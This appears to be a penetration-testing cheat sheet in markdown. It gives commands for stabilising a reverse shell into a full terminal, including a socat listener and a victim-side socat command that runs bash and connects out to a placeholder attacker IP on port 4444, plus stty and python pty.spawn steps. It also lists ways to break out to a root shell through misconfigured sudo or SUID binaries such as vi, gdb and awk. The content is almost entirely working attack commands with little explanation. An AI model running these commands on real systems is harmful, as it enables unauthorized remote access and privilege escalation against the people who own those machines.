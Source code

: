 * Socat PTY
``` sh
# attacker machine
socat file:`tty`,raw,echo=0 tcp-listen:4444

# victim machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker-ip>:4444
```

* STTY
``` sh
# reverse shell
python -c "import pty; pty.spawn('/bin/bash')"
CTRL-Z

# host
stty raw -echo
fg

# reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <num>
```

* Disable default shell and force to `bash`
``` sh
chmod 750 <tcsh/csh/ksh>
```

* Record a shell session (CTRL-D stops)
``` sh
script -a <outfile>
```


## Shell Breakouts / Abusing Misconfigured Sudo and SUID

* The ultimate reference: [GTFOBins](https://gtfobins.github.io)

* `vi` / `vim`
```sh
:set shell=/bin/bash
:shell
```
or
```sh
:! /bin/bash
```

* `gdb` / `iftop`
```sh
!sh
```

* `awk`
```sh
awk 'BEGIN {system("/bin/sh")}'
```
